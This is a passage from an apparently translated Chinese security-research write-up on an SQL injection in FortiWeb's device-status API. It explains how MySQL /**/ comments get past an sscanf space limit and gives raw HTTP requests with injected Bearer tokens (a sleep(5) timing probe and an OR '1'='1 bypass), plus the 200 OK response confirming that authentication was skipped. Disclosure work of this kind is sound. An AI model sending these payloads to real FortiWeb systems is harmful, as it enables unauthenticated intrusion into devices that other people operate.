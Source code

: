 看出来了吗？其实很简单。  
  
C 函数 __isoc23_sscanf  
用于提取我们的输入——根据其格式字符串，它会在遇到第一个空格时停止读取。这意味着我们无法在注入的查询中包含空格。经典问题。  
  
当然，我们都经历过那个年代，还记得 MySQL 的经典注释技巧：/**/  
。  
  
是时候把它拿出来用用了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkiboDsp9lxRqvxibyZRs4VxKDp8pBTwVrQiaibaSoWiavKjPQYh5Po928N0Aw/640?wx_fmt=png&from=appmsg "")  
  
对于正在跟进的读者，这里是原始的 HTTP 请求：  
```
GET /api/fabric/device/status HTTP/1.1
Host: 192.168.8.30
Authorization: Bearer AAAAAA'/**/or/**/sleep(5)--/**/-'

```  
  
相信你也能感受到我们的喜悦：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkibhYJdV1F0ZWeqrO6y6uiaWUJiarfuNKF6P1sSTF9paxtgAGHqIYpGNic2g/640?wx_fmt=png&from=appmsg "")  
  
现在让我们回到 80 年代（也就是现代 Fortinet 的现状），用经典的 OR 1=1  
来测试这个软件。  
  
这让我们可以完全绕过 token 检查，对于想要检测漏洞存在而不想直接进行漏洞利用的情况特别有用：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkibWHGJUG8PtuxAXnrrJtddQ3NSAwuV1sUZh6eQ2jngb6G9cDyAClvX6w/640?wx_fmt=png&from=appmsg "")  
  
对于正在跟进的读者，这里是原始的 HTTP 请求：  
```
GET /api/fabric/device/status HTTP/1.1
Host: 192.168.8.30
Authorization: Bearer AAAAAA'or'1'='1
```  
  
漂亮，200 OK  
HTTP 响应 - 确认我们的 SQL 注入 (SQL Injection) 成功，并且成功绕过了 token 检查：  
```
HTTP/1.1 200 OK
Date: Thu, 10 Jul 2025 17:20:09 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Content-Security-Policy: Script-Src 'self', frame-ancestors 'self'; Object-Src 'self'; base-uri 'self';
X-Content-Type-Options: nosniff
Content-Length: 248
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: application/json

{ "serial": "FVVM00UNLICENSED", "device_type": "fortiweb", "model": "FortiWeb-VM", "version": { "major": 7, "minor": 6, "patch": 3 }, "build": { "number": 1043, "release_life_cycle": "GA" }, "hostname": "FortiWeb", "supported_api_versions": [ 1 ] }
```  
  